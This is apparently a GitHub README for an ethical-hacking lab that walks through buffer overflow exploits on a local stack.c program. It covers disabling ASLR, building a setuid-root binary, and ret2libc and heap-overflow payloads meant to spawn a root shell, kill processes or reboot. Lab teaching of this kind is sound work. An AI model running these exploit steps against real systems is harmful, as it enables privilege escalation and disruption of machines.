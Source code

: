 # Ethical hacking - Buffer Overflow Exploit

## What is Stack guard? What is ASLR protection?

## Perform a stack overflow attack on the stack.c and launch shell as root under when Stack is executable stack and ASLR is turned off

`sudo sysctl -w kernel.randomize_va_space=0`
`sudo gcc -g stack.c -o stack -fno-stack-protector -z execstack`
`sudo chown root:root stack`
`sudo chmod 4755 stack`
`gcc exploit.c -o exp`
`./exp shell`
`./stack`

## Perform a stack overflow attack on the stack.c and launch shell as root and perform seteuid() under when Stack is executable stack and ASLR is turned off

`./exp shell`
`./stack`

## Perform a stack overflow attack on the stack.c and kill all processes when Stack is executable stack and ASLR is turned off

`./exp kill`
`./stack`

## Perform a stack overflow attack on the stack.c and reboot the system when Stack is executable stack and ASLR is turned off

`./exp restart`
`./stack`

## Now turn on ASLR and perform all the previous tasks

We enable the ASLR using this command: `sudo sysctl -w kernel.randomize_va_space=2`
In a BASH script, we call the program in an infinite loop.
`sh -c "while [ 1 ]; do ./stack; done;"`

## Turn on a non-executable stack . Perform any ret2libc attack

`sudo gcc stack.c -o stack -fno-stack-protector -z noexecstack`

Then, start GDB with:
`gdb stack`

Type the commands:
`b main`
`r`
`p system` (Note the address)
`p exit` (Note the address)

Run `exploit_retlib.c` to get the addresses for the two components and `getenv.c` to get address for `/bin/sh`.

Add the addresses to the pointers in `exploit_retlib.c`

Then run the code:
`gcc -o exploit exploit_retlib.c`
`./exploit`
`./stack`

## Exploit heap1.c and try to execute executeShell function to launch a shell

`gcc -o exploit exploit_retlib.c`
In GDB, we set a breakpoint at main and execute the following commmands
`b main`
`r`
`info proc map` (Note the heap address)
`x/50x <heap_address>`
We determine that we need to enter 72 bytes garbage value followed by `executeShell()` address.
`print &executeShell` (Note the address)
`$(python -c "print 'A'*72 + '\x64\x84\x04\x08'")`